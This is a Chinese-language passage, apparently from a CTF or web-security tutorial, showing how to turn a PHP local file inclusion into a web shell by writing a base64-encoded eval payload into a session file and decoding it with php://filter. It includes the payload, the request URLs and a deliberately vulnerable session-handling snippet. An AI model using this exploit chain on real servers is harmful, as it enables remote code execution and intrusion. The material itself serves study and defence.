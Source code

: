 要包含session文件，需要知道文件的路径。先注册一个用户，比如Johnson。等登陆成功后，记录下cookie中的PHPSESSID的值，这里为0d0385dc6a1067f4e3406191（经过测试不注册也行，输入一个不存在的用户名，登录失败也会生成session文件，名称都为`sess_cookie值`）

访问：

```
http://x.x.x.x/index.php?action=/var/lib/php5/sess_0d0385dc6a1067f4e3406191
```

其中`/var/lib/php5/`的session文件路径是测试出来的，常见的php-session存放位置在上面也有列出来了。

这里能包含，并且控制session文件，但要写入可用的payload，还需要绕过：

```
$_SESSION['username'] = base64_encode($username);
```

如前面所示，输入的用户名会被base64加密。如果直接用php伪协议来解密整个session文件，由于序列化的前缀，肯定会导致乱码。

那么这里需要考虑一下base64的编码过程。比如编码abc。

```
未编码: abc
转成ascii码： 97 98 99
转成对应二进制（三组，每组8位）： 01100001 01100010 01100011
重分组（四组，每组6位）： 011000 010110 001001 100011
每组高位补零，变为每组8位：00011000 00010110 00001001 00100011
每组对应转为十进制： 24 22 9 35
查Base64编码表得： Y W J j
```

考虑一下session的前缀：`username|s:12:"`，中间的数字12表示后面base64串的长度。当base64串的长度小于100时，前缀的长度固定为15个字符，当base64串的长度大于100小于1000时，前缀的长度固定为16个字符。

由于16个字符，恰好满足以下条件：

```
16个字符 =&gt; 16 * 6 = 96 位 =&gt; 96 mod 8 = 0
```

也就是说，当对session文件进行base64解密时，前16个字符固然被解密为乱码，但不会再影响从第17个字符后的部分也就是base64加密后的username。

那么这里注册一个账号`JohnsonJohnsonJohnsonJohnsonJohnsonJohnsonJohnsonJohnsonJohnson&lt;?php eval($_GET['abcdefg']) ?&gt;`,其base64加密后的长度为128，大于100。（经过测试不注册也行，输入一个不存在的用户名，登录失败也会生成session文件，名称都为`sess_cookie值`）

访问：<code>http://x.x.x.x/index.php<br>
?action=php://filter/read=convert.base64-decode/resource=/var/lib/php5/sess_0d0385dc6a1067f4e3406191<br>
&amp;abcdefg=phpinfo();</code>

成功执行，即成功getshell了。

例子2：现在有一个session.php可控用户会话信息值：

```
session_start();
    $username = $_POST['username'];
    $_SESSION['username'] = $username;
```

可以看到这个session.php文件中的用户会话信息username的值是用户可控制的，那我们就可以传入恶意代码进行攻击利用。
